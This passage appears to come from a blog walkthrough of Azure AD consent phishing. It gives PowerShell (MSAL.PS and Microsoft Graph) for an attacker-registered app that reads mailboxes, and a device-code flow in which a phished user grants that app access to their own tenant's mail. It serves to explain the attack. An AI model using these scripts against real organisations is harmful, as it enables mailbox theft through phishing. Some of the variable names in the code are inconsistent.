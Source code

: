 At this point, the attacker just configure within his own tenant an application which can read email. This is a dummy example, but it can be "far more critical" like manage directory, write groups,...). For this demo, I will use a pretty cool PS module called **MSAL.PS**. It's not an official Powershell SDK, but it helps you to generate token using MSAL. Let's now quickly test if our app is working:

```powershell

#Define parameters
$tenantId = <Attacker tenantId>
$AppId = <attacker app registration Id>
$Secret = Read-Host -AsSecureString #secret generated previously
$uri = "An attacker email address"

#Create variables
$uri = "https://graph.microsoft.com/v1.0/users/$UPN/messages"
#Generate Access token for a confidential app
$token = Get-MsalToken -ClientId $appId -ClientSecret $secret -TenantId $tenant -Scopes "https://graph.microsoft.com/.default" -ForceRefresh
#Create header
$Headers = @{
    'Authorization' = $("Bearer " + $token.AccessToken)
    "Content-Type"  = 'application/json'
}
#Request read email
Invoke-RestMethod -Uri $uri -Headers $Headers

```

Now you should be able to read any mailboxes from the attacker tenant, **which is normal** because you run your workflow using an **application permission** (run as an app, not as a user).

Now this is the **interesting part**. Imagine now, the attacker starts a phishing attack on your company and a basic user click on a web link (nice looking app with 365 Microsoft icons) and arrive at the AAD authentication page. For this demo, instead of creating a webpage for the phishing attack, we will simply generate a **device code authentication** (public application with no secret shared) using the attacker AppId from the end user. The result is the same, it's just I have no idea how to create a fake HTML page :D. **Now we're on the basic user side**, let's run:

```powershell

#Define parameters
$tenantId = <Customer tenantId>
$AppId = <attacker app registration Id>
$uri = "A customer email address"

#Generate Access token for an public app
$token = Get-MsalToken -ClientId $appId -TenantId $tenant -devicecode
#Create header
$Headers = @{
    'Authorization' = $("Bearer " + $token.AccessToken)
    "Content-Type"  = 'application/json'
}
#Request read email
Invoke-RestMethod -Uri $uri -Headers $Headers

```
